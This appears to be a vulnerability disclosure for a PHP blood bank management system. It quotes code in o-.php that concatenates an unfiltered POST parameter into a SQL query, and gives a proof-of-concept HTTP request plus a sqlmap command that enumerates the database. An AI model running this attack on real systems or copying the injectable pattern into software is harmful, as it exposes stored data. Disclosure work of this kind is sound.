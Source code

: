 # blood-bank-system-in-php-sql1

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

o-.php 

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

## PROBLEM TYPE

network remote.

## Vulnerability Type

sql injection

## Root Cause

o-.php file, SQL injection is used to obtain database information.

## Impact

## **Description of the vulnerability**

### o-.php

source code，the    bloodname parameter is not filtered and concatenated into the SQL statement.                                                                                                                                                                                                                                                                                                                                                                                                                                                               

```
$Bloodname=$_POST['bloodname'];
$availability=$_POST['Availibility'];
$unit=$_POST['unit'];
$hos=$_POST['hospital'];
$s = "select * from o_ where Bloodname= '$Bloodname'";
$result = mysqli_query($con, $s);
$num = mysqli_fetch_row($result);
```

![image-20240922221101957](https://github.com/user-attachments/assets/766f9232-8317-4f32-b221-cd1effacc9e4)



## **Vulnerability recurrence**

### **POC**

```
POST /admin/blood/update/o-.php HTTP/1.1
Host: bloodbankmgmtsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://bloodbankmgmtsystem
Connection: close
Referer: http://bloodbankmgmtsystem/admin/bloodupdate.php
Cookie: PHPSESSID=rulomv90jlteeh3qr1g1ckb3en
Upgrade-Insecure-Requests: 1
Priority: u=0, i

bloodname=11&unit=1
```

save as 1.txt

```
python sqlmap.py -r "E:\1.txt"   --current-db --level 5
```

![image-20240922220831065](https://github.com/user-attachments/assets/ddef6619-dcfe-4c3f-bd50-ebcb895a5977)